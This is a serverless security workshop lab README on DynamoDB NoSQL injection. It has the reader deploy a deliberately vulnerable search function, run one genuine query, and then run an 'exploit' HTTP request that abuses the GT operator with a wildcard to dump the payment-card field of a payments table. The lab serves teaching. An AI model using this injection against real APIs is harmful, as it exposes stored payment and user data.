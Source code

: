 # DynamoDB Injection

This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.

On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges

* In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`
* Wait for instructor to explain the contents of the lab
* Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)
* Deploy the function with the command `sls deploy`
* Wait for the function to deploy completely 

Let's now run a genuine search against the database with this command
```bash

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name

```

Now let's run the exploit
```bash

http POST https://xxxx.execute-api.us-east-1.amazonaws.com/api/search db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card

```

### Teardown

* In your image, navigate over to `/root/labs/Serverless-Workshop/DynamoDB-Injection`
* Run `sls remove` to remove stack